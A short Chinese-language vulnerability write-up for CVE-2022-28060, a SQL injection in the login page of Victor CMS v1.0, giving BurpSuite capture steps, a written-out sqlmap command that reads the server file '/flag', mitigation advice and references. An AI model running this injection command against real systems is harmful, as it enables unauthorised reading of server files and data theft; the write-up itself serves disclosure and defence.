

# CVE-2022-28060

## Description

Victor CMS v1.0 中的 `/includes/login.php` 页面 `user_name` 参数存在 SQL 注入漏洞

## Explanation of exploit; PoC

1. 在首页点击登录，然后通过 BurpSuite 拦截请求，并将请求保存为文件 user_name.txt，如下图：
    
    

2. 使用 sqlmap 对 user_name.txt 进行注入 `sqlmap -r .\user_name.txt --batch --file-read '/flag' --dbms mysql`，（使用时间盲注，需要几分钟时间）如下图：
    

## Mitigation

该漏洞使用时间盲注，允许攻击者注入和访问，泄露系统上的所有数据。建议：
1. 对用户输入进行过滤。
2. 对用户输入进行转义。
3. 使用预编译的SQL语句。

## Refer

- https://github.com/JiuBanSec/CVE/blob/main/VictorCMS%20SQL.md
- https://yunjing.ichunqiu.com/cve/detail/1027
- https://nvd.nist.gov/vuln/detail/CVE-2022-28060